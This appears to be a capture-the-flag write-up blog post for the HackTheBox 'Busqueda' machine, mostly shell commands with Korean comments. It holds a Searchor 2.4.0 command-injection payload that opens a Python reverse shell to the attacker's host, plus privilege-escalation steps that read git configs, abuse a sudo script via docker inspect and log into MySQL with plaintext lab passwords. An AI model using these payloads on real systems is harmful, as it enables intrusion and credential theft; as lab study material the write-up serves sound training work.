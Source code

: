 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .

# mysql connect gitea : yuiu1hoiu4i5ho1uh
mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 172.19.0.3 gitea

## in mysql
# 
select name, email, passwd from user;

# in web
echo "10.129.228.217 gitea.searcher.htb" | sudo tee -a /etc/hosts
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9d0cfd2413ed62917f246c9ddb5ec3b6_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/5e3b73d1e6163d460302eb52671092d4_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/65ff7bcd2b912a2a00de613dc6410d87_MD5.jpeg)